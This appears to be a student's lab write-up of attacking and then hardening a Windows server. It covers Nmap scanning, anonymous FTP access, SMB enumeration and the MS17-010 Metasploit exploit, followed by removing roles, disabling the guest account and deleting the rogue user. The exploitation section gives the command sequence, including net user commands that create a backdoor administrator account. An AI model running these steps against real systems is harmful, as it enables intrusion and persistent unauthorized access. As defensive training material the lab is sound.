 In this lab, I am exploiting a Windows Machine with Metasploit by using a vulnerability found with Nmap. I will then use this knowledge to harden the system so it doesn’t happen.

## Open Ports
I am using a Kali Linux system. I can ping the other Windows System in the network. I also use nmap to scan the system for any open ports. 
### FTP
![image](https://github.com/user-attachments/assets/074a581f-8d2c-4032-9a42-e30f374888ac)


FTP sends data in clear text making it vulnerable, making it a good target to exploit. Additionally, anonymous users are sometimes allowed to download and even upload files to a server. If anonymous access is allowed, then putting “ftp” in the user and any password will be accepted no matter what. I don’t put anything in the password, only pressing enter, and it still goes through.
![image](https://github.com/user-attachments/assets/d7f6ceb8-f851-461f-9406-03349d678c84)


Now that I have logged in anonymously, I can view what files I can download from the server. 
**‘get flag.txt’** to download the file named flag.txt in plain text as FTP is not secure.
![image](https://github.com/user-attachments/assets/ca8c6c37-8344-4453-8c6b-67630803f317)


**‘put 8675309.mp3’** to upload the mp3 file to the server. This is a critical threat allowing people to store files that should not be there.
![image](https://github.com/user-attachments/assets/061fa110-1508-4e3e-ac7b-9045dd90e8fd)


### HTTP
In the Nmap scan, the HTTP port was also shown to be open. I can type ‘192.168.1.100’ in the URL bar of a web browser to see if a website has been set up for the company. It seems to be the default IIS web page, so it has not been configured.
![image](https://github.com/user-attachments/assets/f0225d1c-e4fe-4fdf-9fff-850a8375bdc6)


### SMB
The Nmap scan also showed port 445 open. I am completely unfamiliar with SMB, so I am following the lab closely.
**‘smb -L 192.168.1.100’** to list the shares on the system
When prompted for the password, I was able to just hit enter and then I had access.
![image](https://github.com/user-attachments/assets/266714d3-e5fa-4685-bfdc-37ae21e7fd75)


There is a critical 2016 SMB Windows Server vulnerability designated as MS17-010, this is what will be used to exploit the machine.

## Exploiting the Machine
**‘msfdb init’** to initialize a metasploit database
**‘msfconsole’** to initialize metasploit

**‘search MS17-010’** to search for exploits 
![image](https://github.com/user-attachments/assets/60809ad3-325f-4f7a-9e75-b413cfb01b94)


(5) to select the ms17_010_psexec exploit
With this exploit selected, I can type **‘info’** to get relevant information on the exploit, especially finding references on the exploit which can then help me secure this system from the exploit later on.
![image](https://github.com/user-attachments/assets/83062bcb-5082-4ab9-a6c7-300a88d3ac4e)


Back to exploiting the machine, after setting the remote host ‘RHOSTS’ to the target IP, I can use ‘check’ to tell metasploit to see if the system is vulnerable to the exploit
![image](https://github.com/user-attachments/assets/299c5e89-efc0-4075-afa4-6da394720f9b)


It seems I don’t need to set ‘LHOST’ so I can just ‘exploit’. A meterpreter shell opens up.
![image](https://github.com/user-attachments/assets/3078b642-a5ac-4e6e-bb54-e96046d495d9)


**‘shell’** to enter the Windows command prompt of the system. This could be more useful to those who are more comfortable working in command prompt as the commands differ from meterpreter and cmd. There may also be additional functionality, but I don't even know the full scope of meterpreter yet

Within command prompt, I can create a new user and escalate that user to have admin permissions
**`net user hacker P@ssw0rd /add`**
**`net localgroup administrators hacker /add`**
![image](https://github.com/user-attachments/assets/26b69f2e-5d84-4e93-ad72-86d0d5315274)


## Hardening the Machine
Now working on the Windows machine that was just attacked.
When logging in, a “Server Manager” window opened up. 

### FTP and HTTP
Manage → Remove Roles and Features
![image](https://github.com/user-attachments/assets/3f2a24c8-f181-46f4-8362-a3e8e18d16d0)


In this menu, I can see all the roles that are enabled
![image](https://github.com/user-attachments/assets/2bb9ed5e-04f3-4f8e-b968-c9913fdaf3db)


From here, I can remove all the roles related to the Web Server. The website is not configured at all and it seems to not be needed as it was not being used. This also removes the FTP server from being active, removing that vulnerability. After that, I restarted the computer.
![image](https://github.com/user-attachments/assets/c71ab9cd-761e-4eb5-9d7c-b54853a80479)


Now, when going back to the Kali machine and scanning the Windows machine with Nmap, the HTTP and FTP ports are no longer showing up as open. 
![image](https://github.com/user-attachments/assets/ed9d7a94-c5d8-4e68-940c-b350f96ca49a)


The SMB vulnerability is still up, at this point, so now I will secure the system from that.


### SMB
Going back to the Windows machine, the guest user for the system is active which is allowing attackers to browse shares on the machine, as well as allowing the MS17-010 exploit to work.
![image](https://github.com/user-attachments/assets/33814ba6-4a09-4460-91b5-58fc539ee6ba)


**‘net user guest /active:no’** to disable the guest account
![image](https://github.com/user-attachments/assets/cd7a4920-2767-4c4f-87e3-7d42bce94968)


Now back on the Kali machine, I can no longer enumerate the shares on the system as I can’t get access without the correct password.
![image](https://github.com/user-attachments/assets/99aa308a-da66-4a71-8d22-324a09096f49)


Additionally, I run into problems when I attempt to exploit the machine again in the metasploit console.
**‘check’** to see the vulnerability of the machine to the exploit shows an error due to “an SMB Login Error”
![image](https://github.com/user-attachments/assets/bb9ed3e2-2316-4b58-8584-a5d67932d7dc)


**‘exploit’** to run the exploit, I can no longer create a session with the machine
![image](https://github.com/user-attachments/assets/64e02a78-873f-483d-941d-2ee6ac1fa7c9)


I find it amazing how something as simple as disabling the guest account can completely prevent this attack.

### Cleaning Up
Now that the vulnerability is closed, I can clean up the damage done by the Kali machine

On the Windows machine, I can view users with administrator permissions
**‘net localgroup administrators’** to view users in the administrator group
![image](https://github.com/user-attachments/assets/f84244f1-c372-44a5-9833-b4f363981aec)


I see that there is an unauthorized user with administrator permissions, so I can disable the account
**‘net user hacker /active:no’** to disable the user named hacker
![image](https://github.com/user-attachments/assets/e5380ae7-55ce-4c5d-a2fc-5263b109d0e3)


Now I can remove the account entirely from the system
**‘net user hacker /delete’** to delete the user named hacker
![image](https://github.com/user-attachments/assets/45ec44f7-131c-4eb3-afd4-de5ef34dcfb7)







